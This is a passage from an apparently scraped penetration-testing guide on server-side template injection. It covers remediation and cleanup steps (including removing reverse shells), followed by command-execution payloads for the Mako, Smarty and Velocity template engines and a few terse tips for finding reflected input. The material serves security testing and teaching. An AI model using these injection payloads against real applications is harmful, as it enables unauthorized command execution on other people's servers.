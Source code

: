 16. **Suggest Remediation**:
    - Disable unsafe template functions or expressions.
    - Implement input validation and escaping before rendering in templates.
    - Use template engine versions that provide robust sandboxing.

17. **Remove Artifacts**:
    - Clean up any files or commands executed during testing.
    - Remove reverse shells or other persistent mechanisms.

---

## Template-Specific Techniques
- **Mako (Python)**:
  - Direct access to Python internals is possible through `${}` expressions.
  - Example for executing commands:
    ```python
    <%!
    import os
    %>
    ${os.system('ls')}
    ```

- **Smarty (PHP)**:
  - Check for PHP function access through `eval` or `include`:
    ```php
    {php} echo system('whoami'); {/php}
    ```

- **Velocity (Java)**:
  - Exploit `#set` to create and manipulate objects:
    ```velocity
    #set($runtime = "java.lang.Runtime")
    #set($exec = $runtime.getRuntime().exec("whoami"))
    ```

---

## TEPS 
- try to fiend where the input is reflected 
- try to read the file of the template to know all the classes and the functions to invoke 
- 